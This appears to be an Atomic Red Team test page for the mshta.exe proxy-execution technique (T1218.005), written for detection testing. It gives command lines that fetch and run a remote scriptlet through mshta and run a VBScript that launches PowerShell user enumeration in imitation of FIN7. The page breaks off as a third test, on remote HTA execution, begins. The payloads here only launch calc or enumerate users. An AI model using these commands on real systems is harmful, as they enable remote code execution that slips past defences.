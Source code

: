 - [Atomic Test #10 - Mshta used to Execute PowerShell](#atomic-test-10---mshta-used-to-execute-powershell)

<br/>

## Atomic Test #1 - Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject

Test execution of a remote script using mshta.exe. Upon execution calc.exe will be launched.

**Supported Platforms:** Windows

**auto_generated_guid:** 1483fab9-4f52-4217-a9ce-daa9d7747cae

#### Inputs:

| Name     | Description             | Type | Default Value                                                                                        |
| -------- | ----------------------- | ---- | ---------------------------------------------------------------------------------------------------- |
| file_url | location of the payload | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/mshta.sct |

#### Attack Commands: Run with `command_prompt`!

```cmd
mshta.exe javascript:a=(GetObject('script:#{file_url}')).Exec();close();
```

<br/>
<br/>

## Atomic Test #2 - Mshta executes VBScript to execute malicious command

Run a local VB script to run local user enumeration powershell command.
This attempts to emulate what FIN7 does with this technique which is using mshta.exe to execute VBScript to execute malicious code on victim systems.
Upon execution, a new PowerShell windows will be opened that displays user information.

**Supported Platforms:** Windows

**auto_generated_guid:** 906865c3-e05f-4acc-85c4-fbc185455095

#### Attack Commands: Run with `command_prompt`!

```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close")
```

<br/>
<br/>

## Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)

Execute an arbitrary remote HTA. Upon execution calc.exe will be launched.
